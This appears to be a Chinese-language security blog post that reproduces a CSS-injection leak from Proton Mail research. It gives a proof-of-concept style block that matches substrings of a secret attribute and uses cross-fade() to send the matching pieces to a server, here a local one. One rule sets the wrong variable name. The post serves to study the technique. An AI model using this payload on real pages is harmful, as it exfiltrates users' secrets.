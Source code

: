 ```yaml
---
layout: post
title:  css变量+cross-fade leak页面secret
tags: [css,xss]
---
```


在学习Proton Mail 的xss利用时，作者利用css leak页面的一个uuid，本文学习并验证。  
文章中利用了几个技术，将uuid按3位字符拆分，利用css selector来设置变量，最后利用cross-fade组合图片，将请求发出来，然后在服务端拼接。

缺点是css文件较大，因为要将所有的3字符组合全部写在css中。
## css变量
利用css selector，设置变量。  
需要注意：Note that the selector given to the ruleset defines the scope that the custom property can be used in.

## 利用cross-fade()发送请求
```html
<html>
<body>
<div secret="9364538164"></div>
inject css below
<style></style>
</body>
</html>
```
The original syntax is supported in Safari and supported with the -webkit- prefix in Chrome, Opera, and other blink-based browsers.

## 结果
safari可以复现成功，在chrome下需要使用-webkit-cross-fade才可以。
```html
<html>
<body>
<div secret="9364538164">div here</div>
inject css below
<style>
div[secret*="936"]{
--a936 : url("//127.0.0.1:8000/936.png");
}
div[secret*="364"]{
--a364 : url("//127.0.0.1:8000/364.png")
}
div[secret*="646"]{
--a364 : url("//127.0.0.1:8000/646.png")
}
div{
background-image: cross-fade(cross-fade(var(--a936,none) ,   var(--a364,none) , 50%), var(--a646,none)    , 50%);
background-image: -webkit-cross-fade(-webkit-cross-fade(var(--a936,none) ,   var(--a364,none) , 50%), var(--a646,none)    , 50%)
}
</style>
</body>
</html>
```
![image](/static/img/cssleak_img1.png)  
网页访问  
![image](/static/img/cssleak_img2.webp)  
服务端请求

演示时未将url替换为外部url。

https://www.sonarsource.com/blog/code-vulnerabilities-leak-emails-in-proton-mail/  
https://developer.mozilla.org/en-US/docs/Web/CSS/Using_CSS_custom_properties  
https://developer.mozilla.org/en-US/docs/Web/CSS/cross-fade  

